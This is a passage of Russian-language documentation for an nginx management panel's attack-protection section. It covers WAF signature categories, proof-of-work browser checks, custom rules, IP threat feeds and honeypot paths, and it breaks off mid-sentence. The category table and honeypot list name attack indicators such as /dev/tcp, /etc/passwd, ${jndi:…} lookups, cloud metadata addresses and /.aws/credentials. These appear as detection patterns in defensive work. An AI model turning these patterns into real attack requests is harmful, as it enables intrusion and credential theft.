






# 19. Защита от атак

Раздел **«Защита → Защита от атак»** собирает в одном месте механизмы, которыми отражают атаки на веб-сайты:
фильтр запросов по сигнатурам атак (WAF), проверку браузера и режим «Под атакой», списки угроз, ловушки, свои
правила, защиту форм входа, хотлинкинга и заголовков, журнал атак, самопроверку и оценку защищённости. Блокировки
IP и доступ по странам описаны в [главе 17](17-bans.md) — они работают вместе с этим разделом.


## Методология: от чего и как защищаемся

Атаки на сайт за обратным прокси делятся на уровни. Каждый уровень отражают своим механизмом; ни один механизм не
закрывает всё.

| Уровень | Примеры | Чем отражает Nginx Manager | Чего nginx сделать не может |
|---|---|---|---|
| Сеть и транспорт (L3/L4) | SYN-флуд, подмена адресов, UDP-флуд | Настройки ядра Linux: SYN cookies, очереди, rp_filter («Сеть и сервер») | Объёмные DDoS в десятки Гбит/с — их отражают только у провайдера или в сети очистки (Cloudflare, DDoS-Guard, Qrator, StormWall) |
| Соединения | Slowloris, R.U.D.Y., Slow Read, тысячи соединений с одного IP | Короткие таймауты, сброс зависших соединений, лимит соединений с IP | — |
| Протокол HTTP | Контрабанда запросов, нестандартные методы, нулевой байт, CRLF | Категория «Нарушения протокола», вырезание опасных заголовков, проверка Host и SNI | — |
| Приложение (OWASP Top 10) | SQL-инъекции, XSS, обход каталогов, RCE, SSRF, Log4Shell, SSTI | Фильтр запросов: 98 сигнатур в 22 категориях, виртуальные патчи 40 известных уязвимостей (CVE) | Проверка тела POST-запроса (см. [ограничения](#ограничения)) |
| Автоматизированные угрозы (OWASP OAT) | Перебор паролей, сканирование, сбор данных, L7-флуд, боты ИИ | Ограничение частоты, защита форм входа, проверка браузера, ловушки, автоблокировка, боты по категориям | Боты, исполняющие JavaScript и меняющие тысячи IP, — частично (сложность задачи, привязка пропуска к IP) |
| Репутация источника | Известные бот-сети, захваченные сети, Tor | Списки угроз (Spamhaus, FireHOL, Tor, blocklist.de…), доступ по странам | — |
| Злоупотребление ресурсами | Хотлинкинг, открытые перенаправления | Защита от хотлинкинга, категория «Открытые перенаправления» | — |



Механизмы основаны на мировых практиках: сигнатуры — по [OWASP Core Rule Set](https://coreruleset.org/) и
7G/8G Firewall для nginx, виртуальные патчи — по эксплуатируемым уязвимостям из каталога CISA KEV, проверка
браузера — по схеме «I'm Under Attack» Cloudflare и proof-of-work [Anubis](https://anubis.techaro.lol/),
автоблокировка — по образцу fail2ban, оценка защищённости — по OWASP ASVS, CIS NGINX Benchmark и Mozilla
Observatory, сетевые параметры — по рекомендациям для серверов под DDoS.

### Порядок проверок в nginx

Для каждого запроса к сайту nginx выполняет проверки до выбора location — запрос, отклонённый защитой, не доходит
ни до бэкенда, ни до кэша:

```
запрос
  │
  ├─ IP в блокировках (глава 17) ─────────────────────────────► 444
  ├─ страна запрещена ────────────────────────────────────────► 403 / 444 / 451
  ├─ доверенный IP или своё правило «пропустить» ─────────────► сайт (без проверок защиты)
  │
  ├─ записать:     списки угроз «записать», фильтр в режиме «запись», свои правила «записать»
  ├─ проверить:    свои правила «проверить браузер», списки угроз «проверить браузер»
  ├─ блокировать:  фильтр «блокировать», хотлинкинг, списки угроз «блокировать», свои «блокировать/закрыть»
  │      (каждое следующее совпадение важнее предыдущего — побеждает самое строгое действие)
  │
  ├─ итог «блокировать» ──────────────────────────────────────► 403 «Доступ запрещён» с номером запроса
  ├─ итог «закрыть соединение» ───────────────────────────────► 444
  ├─ HTTPS: Host не совпадает с SNI ──────────────────────────► 421
  ├─ нужна проверка браузера и нет действующего пропуска ─────► страница проверки (403) → решение → пропуск
  │
  └─► сайт (итог «записать» — запрос проходит и попадает в журнал атак)
```

Каждая проверка записывает итог в журнал доступа nginx (поля `wf` — сработавшее правило, `wa` — действие, `ch` —
проверка браузера). Сборщик статистики панели читает эти поля и ведёт **журнал атак** и счётчики.

## Фильтр запросов (WAF)

Каталог сигнатур атак, встроенный в конфигурацию nginx картами `map`: строка запроса (путь и параметры как они
пришли, в URL-кодировке) и заголовки User-Agent, Referer, Cookie, X-Forwarded-For, Content-Type, X-Api-Version и
другие. Шаблоны учитывают URL-кодировку (`%27`, `%3c`, `%2e`), двойную кодировку и «длинную» UTF-8 — приёмы обхода
фильтров. Карты вычисляются лениво: категория, выключенная на сайте, не тратит ни такта.


**Режим категории:** *блокировать* — ответ 403 со страницей «Доступ запрещён» (или 444 — закрыть соединение);
*только запись* — запрос проходит, но попадает в журнал атак; *выключено*. Режимы задаются для всех сайтов, сайт
может переопределить их на вкладке «Защита от атак» своего редактора.

<!-- GEN:waf_categories -->
<!-- Сгенерировано tools/gen_reference.py — не редактируйте вручную -->
| Категория | По умолчанию | Правил (ур. 1 / 2) | Что ловит |
|---|---|---|---|
| **SQL-инъекции** (`sqli`) | блокировать | 6 / 2 | Внедрение SQL-кода в параметры: UNION SELECT, логические условия, задержки (слепые инъекции), служебные таблицы, вызовы функций СУБД. OWASP A03, CWE-89. |
| **Межсайтовый скриптинг (XSS)** (`xss`) | блокировать | 5 / 2 | Внедрение HTML и JavaScript: теги script/iframe/svg, обработчики событий, javascript:-ссылки, доступ к cookie. OWASP A03, CWE-79. |
| **Обход каталогов и чтение файлов (LFI)** (`traversal`) | блокировать | 2 / 0 | ../ в разных кодировках, системные файлы (/etc/passwd, /proc/self/environ, win.ini). OWASP A01, CWE-22. |
| **Подключение удалённых файлов (RFI) и обёртки PHP** (`rfi`) | блокировать | 2 / 0 | URL другого сервера в параметре, оканчивающийся на «?», и обёртки php://, data://, expect://, phar://. CWE-98. |
| **Внедрение команд ОС (RCE)** (`rce`) | блокировать | 4 / 0 | Команды оболочки после ; | && $( и обратных кавычек, пути к интерпретаторам, /dev/tcp, Shellshock в заголовках. OWASP A03, CWE-78. |
| **Внедрение PHP-кода** (`php`) | блокировать | 3 / 1 | <?php, вызовы eval/system/passthru/base64_decode, изменение php.ini через параметры (allow_url_include, auto_prepend_file). CWE-94. |
| **Java: JNDI (Log4Shell), OGNL, EL, десериализация** (`java`) | блокировать | 6 / 0 | ${jndi:…} и его обфускации, выражения OGNL (Struts, Confluence), Spring EL, сериализованные объекты Java (rO0AB), Spring4Shell, Text4Shell. CWE-917, CWE-502. |
| **Подделка запросов сервера (SSRF)** (`ssrf`) | блокировать | 2 / 1 | Адреса метаданных облаков (169.254.169.254, metadata.google.internal), схемы gopher:// и dict://, на уровне 2 — localhost и 127.0.0.1 в параметрах. OWASP A10, CWE-918. |
| **NoSQL-инъекции** (`nosqli`) | блокировать | 1 / 0 | Операторы MongoDB в параметрах: [$ne], [$gt], [$regex], $where. CWE-943. |
| **Внедрение заголовков (CRLF)** (`crlf`) | блокировать | 1 / 0 | Перевод строки в URL (%0d%0a) для подделки заголовков ответа и cookie — HTTP response splitting. CWE-113. |
| **Загрязнение прототипа (JavaScript)** (`pollution`) | блокировать | 1 / 0 | __proto__, constructor.prototype в параметрах — атака на приложения Node.js. CWE-1321. |
| **Внедрение в шаблоны (SSTI)** (`ssti`) | блокировать | 2 / 1 | Выражения шаблонизаторов: {{7*7}}, обход объектов Python (__class__, __globals__), ${…} и <%= … %> на уровне 2. CWE-1336. |
| **XXE, LDAP- и XPath-инъекции** (`xxe`) | блокировать | 1 / 2 | Объявления сущностей XML (<!ENTITY, <!DOCTYPE … [) в URL; на уровне 2 — LDAP- и XPath-инъекции. CWE-611, CWE-90, CWE-643. |
| **Сканеры уязвимостей** (`scanners`) | блокировать | 2 / 2 | Инструменты атакующих по User-Agent (sqlmap, nikto, nuclei, nmap, masscan, wpscan, acunetix…) и их характерные запросы; на уровне 2 — пустой User-Agent и исследовательские сканеры интернета. |
| **Служебные и секретные файлы** (`files`) | блокировать | 6 / 1 | Каталоги систем контроля версий (.git, .svn), файлы окружения (.env), ключи, резервные копии и дампы баз (.bak, .sql, backup.zip), конфигурации, отладочные страницы (phpinfo, server-status). На уровне 2 — панели администрирования БД и actuator. |
| **Веб-шеллы и бэкдоры** (`webshells`) | блокировать | 2 / 0 | Обращения к известным веб-шеллам (c99, r57, wso, b374k, alfa…) и передача команд PHP-скриптам. |
| **Виртуальные патчи (известные CVE)** (`cve`) | блокировать | 28 / 0 | Сигнатуры эксплуатации конкретных уязвимостей популярного ПО: Apache, Confluence, Citrix, F5, Fortinet, Exchange, PHP-CGI, Ivanti, Next.js, SharePoint и др. Закрывают уязвимость на входе, пока приложение не обновлено. |
| **Нарушения протокола HTTP** (`protocol`) | блокировать | 6 / 2 | Нестандартные методы (TRACE, TRACK, CONNECT, DEBUG, WebDAV), нулевой байт, «длинная» UTF-8, двойная URL-кодировка служебных символов, Transfer-Encoding в HTTP/1.0 и нестандартный Transfer-Encoding (контрабанда запросов). На уровне 2 — X-HTTP-Method-Override и очень длинные URL. |
| **Открытые перенаправления** (`redirect`) | только запись в журнал | 1 / 0 | Параметры redirect/url/next/return со ссылкой на другой сайт (//evil.com). Возможны ложные срабатывания на OAuth и SSO, поэтому по умолчанию только запись в журнал. CWE-601. |
| **Боты ИИ-компаний** (`bots_ai`) | выключено | 1 / 0 | Сборщики данных для обучения и поиска ИИ: GPTBot, ClaudeBot, CCBot, Bytespider, PerplexityBot, Amazonbot, meta-externalagent и др. Решение — за владельцем сайта. |
| **SEO-боты и сборщики ссылок** (`bots_seo`) | выключено | 1 / 0 | AhrefsBot, SemrushBot, MJ12bot, DotBot, BLEXBot, DataForSeoBot и др. — создают нагрузку, но не приводят посетителей. |
| **HTTP-библиотеки и автоматизация** (`bots_libs`) | выключено | 1 / 0 | python-requests, curl, wget, Go-http-client, Scrapy, HeadlessChrome, PhantomJS… Не включайте для API и сайтов, к которым обращаются скрипты. |
<!-- /GEN:waf_categories -->

**Строгость.** Уровень 1 — правила, почти не дающие ложных срабатываний (проверяются автотестом на корпусе обычных
запросов). Уровень 2 добавляет более «подозрительные» признаки: комментарии SQL после кавычки, длинные hex-строки,
пустой User-Agent, localhost в параметрах, панели администрирования баз данных.



**Номер запроса.** Страница блокировки показывает номер запроса (`$request_id`), IP и время. Посетитель, которого
заблокировали по ошибке, сообщает номер; администратор находит запрос в журнале атак (поле «Номер запроса») и одним
щелчком отключает правило для сайта или исключает путь.

**Ложные срабатывания** — главный риск любого WAF. Порядок работы:

1. Новый сайт — режим «Только запись в журнал (обучение)» на вкладке «Защита от атак» его редактора.
2. Через неделю откройте «Журнал атак» с фильтром по сайту и действию «записано». Законные запросы (редакторы
   статей с HTML, формы с SQL-подобным текстом, API с JSON в параметрах) исключите: кнопки «Отключить правило на
   сайте» и «Не проверять этот путь» в карточке события.
3. Переключите сайт в «Как в общих настройках». Проверьте «Самопроверкой».

**Проверить строку** (вкладка «Фильтр запросов») — покажет, какие правила сработали бы на URL или User-Agent, без
отправки запроса на сайт.

## Проверка браузера и режим «Под атакой»

Посетитель без действующего пропуска получает страницу, где браузер решает задачу proof-of-work: подобрать число,
при котором SHA-256 от «nonce + число» начинается с нужного количества нулевых бит. На 16 битах это около 65 тысяч
попыток — 0,2–1,5 секунды на телефоне. Затем ставится cookie-пропуск, и сайт открывается.



**Как это устроено.** Страницу и проверку решения выдаёт панель (через nginx, по внутреннему адресу; nonce подписан
HMAC с адресом клиента и временем, повторное использование запрещено). Пропуск — `nm_pass` = base64url(MD5(срок +
IP + секрет)) и `nm_pass_e` = срок — дальше проверяет **сам nginx** модулем `secure_link`, не обращаясь к панели,
поэтому проверенные посетители не нагружают панель даже во время атаки. Страница проверки ограничена 5 запросами в
секунду с IP.

**Кого отсекает:** флудеры и скрипты без JavaScript, большинство сборщиков данных, ботов ИИ, сканеры. Бот с
браузерным движком задачу решит, но каждый пропуск стоит ему вычислений, а привязка к IP не даёт раздать один
пропуск бот-сети.


**Режим сайта** (вкладка «Защита от атак» редактора сайта):

| Режим | Когда |
|---|---|
| Никогда | API, вебхуки, мониторинг, мобильные приложения — клиенты, которые не исполняют JavaScript |
| В режиме «Под атакой» (по умолчанию) | Проверка включается кнопкой «Режим «Под атакой»» или автоматически |
| Всегда | Сайт постоянно под ботами; закрытые разделы |

**Режим «Под атакой»** включается кнопкой в шапке раздела (для всех сайтов) или у сайта на вкладках «Обзор» и
«Проверка браузера», на срок или бессрочно. Переключение не создаёт версию конфигурации: панель меняет небольшой
файл и перечитывает nginx.

**Автоматика.** Раз в минуту панель сравнивает нагрузку каждого сайта (средние запросы в секунду за 2 минуты) с
обычной (средней за сутки). Если нагрузка выше порога *и* во столько-то раз выше обычной — включает «Под атакой»
для сайта не меньше чем на заданное время и выключает, когда нагрузка спадёт. Об этом приходит уведомление о
событии (источник «Защита от атак»).

**Исключения.** Пути `/.well-known/`, `/robots.txt`, `/favicon.ico`, `/sitemap.xml` по умолчанию не проверяются
(поисковым роботам и выпуску сертификатов проверка не нужна). Добавьте API-пути сайта в «Не проверять браузер на
путях».

## Свои правила

Для того, что не покрывает каталог: закрыть `/admin` для всех, кроме офиса; отбрасывать запросы с определённым
User-Agent; проверять браузер на `/checkout`; пропускать без проверок партнёрский сервер.

Условие: поле (строка запроса, путь, параметры, User-Agent, Referer, Cookie, Host, метод, любой заголовок, IP) +
оператор (содержит, начинается с, равно, регулярное выражение, входит в список IP и их отрицания). Действие:
блокировать (403), закрыть соединение (444), проверить браузер, записать в журнал, пропустить без проверок.



Правило «Пропустить без проверок защиты» действует раньше всех проверок, в том числе фильтра запросов и списков
угроз. Если запросу соответствуют несколько правил — своих, фильтра, списков угроз, — побеждает самое строгое
действие: закрыть соединение или блокировать → проверить браузер → записать в журнал; при равных — своё правило,
стоящее в списке выше. Поэтому правило «записать» не ослабит блокировку фильтром. «Сайты» пусто — правило для всех
сайтов.

<!-- GEN:custom_rule -->
<!-- Сгенерировано tools/gen_reference.py — не редактируйте вручную -->

<a id="f-custom_rule-id"></a>

### Идентификатор — `id`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| строка | пусто | — | — | нет |

Заполняется автоматически.


<a id="f-custom_rule-name"></a>

### Название — `name`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| строка | пусто | — | — | нет |

**Пример:** `Закрыть /admin снаружи`


<a id="f-custom_rule-enabled"></a>

### Включено — `enabled`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| переключатель (да/нет) | включено | — | — | нет |


<a id="f-custom_rule-sites"></a>

### Сайты — `sites`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| список | пусто | — | — | нет |

Пусто — все сайты.


<a id="f-custom_rule-field"></a>

### Что проверять — `field`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| выбор из списка | `path` (Путь (декодированный)) | — | — | нет |

Варианты:

- `uri` — Строка запроса целиком (путь и параметры)
- `path` — Путь (декодированный)
- `args` — Параметры запроса
- `ua` — User-Agent
- `referer` — Referer
- `cookie` — Cookie
- `host` — Host (домен)
- `method` — Метод
- `header` — Другой заголовок
- `ip` — IP-адрес клиента


<a id="f-custom_rule-header"></a>

### Заголовок — `header`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| строка | пусто | — | — | нет |

**Пример:** `X-Api-Key`

*Показывается, когда `field` = `header`.*


<a id="f-custom_rule-op"></a>

### Условие — `op`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| выбор из списка | `prefix` (начинается с) | — | — | нет |

Варианты:

- `contains` — содержит
- `not_contains` — не содержит
- `prefix` — начинается с
- `equals` — равно
- `regex` — совпадает с регулярным выражением
- `not_regex` — не совпадает с регулярным выражением
- `in` — входит в список (IP, подсети)
- `not_in` — не входит в список (IP, подсети)


<a id="f-custom_rule-value"></a>

### Значение — `value`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| многострочный текст | пусто | — | — | нет |

Для IP — адреса и подсети через пробел или с новой строки.

**Пример:** `/admin`


<a id="f-custom_rule-action"></a>

### Действие — `action`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| выбор из списка | `block` (Блокировать (403)) | — | — | нет |

Варианты:

- `block` — Блокировать (403)
- `drop` — Закрыть соединение (444)
- `challenge` — Проверить браузер
- `log` — Только записать в журнал
- `allow` — Пропустить без проверок защиты

<!-- /GEN:custom_rule -->

## Списки угроз

Адреса из подключённых списков проверяются в nginx через `geo` (бинарное дерево — мгновенно даже на миллионе
записей) до фильтра запросов. Панель скачивает списки и обновляет их по расписанию без изменения версии
конфигурации. Действие для каждого списка: блокировать, проверить браузер или только записать.


<!-- GEN:threat_presets -->
<!-- Сгенерировано tools/gen_reference.py — не редактируйте вручную -->
| Список | Адрес |
|---|---|
| Spamhaus DROP (захваченные и преступные сети) (`spamhaus`) | <https://www.spamhaus.org/drop/drop.txt> |
| Spamhaus DROPv6 (`spamhaus6`) | <https://www.spamhaus.org/drop/dropv6.txt> |
| FireHOL level 1 (атакующие, бот-сети, нераспределённые сети) (`firehol1`) | <https://iplists.firehol.org/files/firehol_level1.netset> |
| Выходные узлы Tor (`tor`) | <https://check.torproject.org/torbulkexitlist> |
| blocklist.de (атаки за 48 часов) (`blocklistde`) | <https://lists.blocklist.de/lists/all.txt> |
| CINS Army (недоверенные адреса) (`cins`) | <https://cinsscore.com/list/ci-badguys.txt> |
| Emerging Threats: скомпрометированные узлы (`etcompromised`) | <https://rules.emergingthreats.net/blockrules/compromised-ips.txt> |
| DShield: самые активные сети атакующих (`dshield`) | <https://feeds.dshield.org/block.txt> |
<!-- /GEN:threat_presets -->

**Рекомендация:** Spamhaus DROP и FireHOL level 1 — «блокировать» (это сети, которые не используются для
законного трафика); Tor — «проверить браузер» или «записать» (Tor — и анонимные пользователи, и атакующие);
blocklist.de, CINS, Emerging Threats — «проверить браузер» (списки быстро меняются, возможны случайные адреса).

Свой список: любой текстовый файл по HTTPS (по адресу или подсети в строке, комментарии `#` и `;`) или локальный
файл `file:///путь`. Подсети шире /8 (IPv4) и /16 (IPv6) отбрасываются как вероятная ошибка в списке.

<!-- GEN:threat_feed -->
<!-- Сгенерировано tools/gen_reference.py — не редактируйте вручную -->

<a id="f-threat_feed-id"></a>

### Идентификатор — `id`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| строка | пусто | — | — | нет |

Латиница и цифры.


<a id="f-threat_feed-name"></a>

### Название — `name`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| строка | пусто | — | — | нет |


<a id="f-threat_feed-url"></a>

### Адрес списка (https://…) — `url`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| строка | пусто | — | — | нет |

**Пример:** `https://example.com/list.txt`


<a id="f-threat_feed-enabled"></a>

### Включён — `enabled`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| переключатель (да/нет) | выключено | — | — | нет |


<a id="f-threat_feed-action"></a>

### Действие — `action`

| Тип | По умолчанию | Диапазон / ед. | Директива nginx | Расширенный |
|---|---|---|---|---|
| выбор из списка | `block` (Блокировать) | — | — | нет |

Варианты:

- `block` — Блокировать
- `challenge` — Проверить браузер
- `detect` — Только записать в журнал

<!-- /GEN:threat_feed -->

## Автоматика и ловушки

**Автоблокировка за атаки.** N срабатываний фильтра с одного IP за окно автоблокировки — IP блокируется (раздел
«Блокировки IP», повторным нарушителям — дольше). Нужно включить автоблокировку в «Настройки панели → Блокировки IP».


**Ловушки (honeypot).** Пути, к которым обычный посетитель не обращается: `/.nm-trap/`, `/.git/config`,
`/wp-config.php.bak`, `/.aws/credentials`… Первое же обращение блокирует адрес на заданное время — сканер не успеет
